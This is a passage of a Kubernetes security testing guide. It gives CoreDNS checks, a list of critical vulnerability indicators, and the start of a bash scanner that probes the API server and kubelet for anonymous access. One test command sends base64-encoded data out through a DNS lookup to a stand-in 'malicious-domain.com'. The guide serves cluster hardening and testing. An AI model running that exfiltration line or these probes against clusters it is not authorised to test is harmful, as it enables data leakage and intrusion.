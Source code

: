 ### 6. DNS Security (CoreDNS)
**Vulnerability:** DNS poisoning or misconfigured DNS.

**Testing Commands:**
```bash
# Check CoreDNS configuration
kubectl get configmap coredns -n kube-system -o yaml

# Test DNS resolution
kubectl run dns-test --image=busybox --rm --restart=Never -it -- nslookup kubernetes.default.svc.cluster.local

# Check for DNS security policies
kubectl get networkpolicies -A | grep dns

# Test DNS exfiltration
kubectl run dns-exfil --image=busybox --rm --restart=Never -it -- nslookup $(date | base64).malicious-domain.com

# Check DNS query logging
kubectl logs -n kube-system deployment/coredns
```

## How to Determine Vulnerability

**Critical Indicators:**
- API server with insecure ports enabled
- Kubelet accessible without authentication
- etcd exposed without TLS/authentication
- Anonymous authentication enabled
- Deprecated API versions in use
- Container runtime allowing privileged operations
- DNS configuration allowing exfiltration

**Component Security Scanner:**
```bash
#!/bin/bash
# K09 Cluster Components Scanner

echo "=== K09: Cluster Components Scanner ==="

echo "[+] Testing API Server access..."
if curl -k -s --connect-timeout 5 https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1 >/dev/null; then
    echo "INFO: API Server accessible"
    
    # Test anonymous access
    if curl -k -s --connect-timeout 5 https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces >/dev/null; then
        echo "WARNING: Anonymous access to API server possible"
    fi
else
    echo "INFO: API Server not accessible (expected for secured clusters)"
fi

echo "[+] Testing Kubelet access..."
NODE_IP=$(kubectl get nodes -o jsonpath='{.items[0].status.addresses[?(@.type=="InternalIP")].address}' 2>/dev/null)
if [ ! -z "$NODE_IP" ]; then
    if curl -k -s --connect-timeout 5 https://$NODE_IP:10250/healthz >/dev/null 2>&1; then
        echo "INFO: Kubelet accessible on $NODE_IP"
        
        # Test anonymous access
        if curl -k -s --connect-timeout 5 https://$NODE_IP:10250/pods >/dev/null 2>&1; then
```